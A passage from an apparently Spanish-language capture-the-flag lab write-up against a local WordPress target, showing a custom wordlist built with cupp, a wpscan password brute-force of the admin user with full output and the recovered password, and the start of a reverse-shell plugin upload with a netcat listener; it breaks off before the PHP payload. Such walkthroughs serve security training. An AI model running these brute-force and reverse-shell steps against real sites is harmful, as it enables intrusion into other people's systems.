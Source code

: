 Podemos ver que nos da un usuario -> **luisillo** , vamos a ver si podemos sacar su contraseña : 
+ Con el rockyou no obtenemos nada, vamos a hacer un diccionario personalizado con **cupp -i**.
+ En la sección profesores, el **admin wordpress es luisillo** y hay info acerca suyo.

   ```bash

wpscan --url "http://172.17.0.2/wordpress/" -U luisillo --passwords ./luis.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]
[+] Started: Tue Nov 26 12:56:22 2024

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - luisillo / Luis1981                                                                                                                       
Trying luisillo / Luis1981 Time: 00:00:03 <===================                                                   > (1510 / 5294) 28.52%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: luisillo, Password: Luis1981

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 26 12:56:28 2024
[+] Requests Done: 1650
[+] Cached Requests: 34
[+] Data Sent: 856.122 KB
[+] Data Received: 949.603 KB
[+] Memory used: 286.195 MB
[+] Elapsed time: 00:00:05

```

**usuario : luisillo**
**contraseña: Luis1981**

En ssh no valen esas credenciales, así que entramos al wordpress como admin.

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:
